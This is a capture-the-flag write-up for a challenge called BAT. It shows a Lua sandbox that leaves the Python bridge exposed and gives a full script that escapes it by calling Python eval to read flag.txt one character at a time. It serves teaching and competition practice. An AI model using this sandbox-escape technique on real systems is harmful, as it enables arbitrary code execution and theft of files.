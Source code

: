 # BAT

## Description

```
Take a look at my new Binary Analysis Tool (BAT)! I even added a preprocessor to make it cooler!
```

## Categories

- `misc`

## Provided Files

- `BAT.zip`

## Solve Process

After taking a look at the codebase of this challenge, I very quickly noticed that the Lua environment was being sanitized.

```py
# --- snip --- #
safe_env = {
    'error': lua.globals().error,
    'ipairs': lua.globals().ipairs,
    'next': lua.globals().next,
    'pairs': lua.globals().pairs,
    'select': lua.globals().select,
    'tonumber': lua.globals().tonumber,
    'tostring': lua.globals().tostring,
    'type': lua.globals().type,
    'python': lua.globals().python,
    'unpack': lua.globals().unpack,
    'string': lua.globals().string,
    'table': lua.globals().table,
    'math': lua.globals().math,
}

# Clear all globals except _G
for key in list(lua.globals()):
    if key != '_G':
        del lua.globals()[key]

# Assign the safe environment back to Lua globals
for key, value in safe_env.items():
    lua.globals()[key] = value
# --- snip --- #
def _filter_attribute_access(obj, attr_name, is_setting):
    if isinstance(attr_name, str):
        if not attr_name.startswith('_'):
            return attr_name
    raise AttributeError('access denied')
# --- snip --- #
```

The important thing to note is that `lua.globals().python` is specified in the `safe_env`, which points to the possibility of using python tools in the preprocessor code.

After some tinkering around on how to load the python functions onto a var, I came up with a pretty ugly way of retrieving the flag one by one, absuing the preprocessor to only output a single char byte value everytime.

```py
import requests
import time

BASE_URL = "https://geriyif4okt43u71.dyn.acsc.land/"
full_flag = ''
files = { 'file': ('stubby', b'\x7fELF', 'application/octet-stream') }

for i in range(0,100):
    lua_code = f'''function(binary_data)
        local py_builtins = python.builtins
        local eval_func = py_builtins["eval"]
        local code = [[str(hex(ord(list(list(open('./flag.txt'))[0])[{i}])).split('x')[1])]]
        local result = eval_func(code)
        return result
    end
    '''
    data = {
        'lua_code': lua_code
    }
    response = requests.post(BASE_URL, files=files, data=data, timeout=10)

    if response.status_code != 200:
        print(f"ERROR at Index: {i}: {response.status_code} with {response.text}")
        break

    for i, j in enumerate(response.text.split("\n")):
        if "readonly>{" in j:
            char = chr(int(response.text.split("\n")[i + 1].split(";")[1].split("&")[0]))
            full_flag += char
            print(f"Progress: {full_flag}")
            if char == "}":
                break

    # dont DoS the instance lmao
    time.sleep(2)

print(f"FLAG: {full_flag}")
```

This takes a while, also because I added the `time.sleep(2)` so the infra doesn't get mad at me I guess, but eventually it retrieves the full flag.

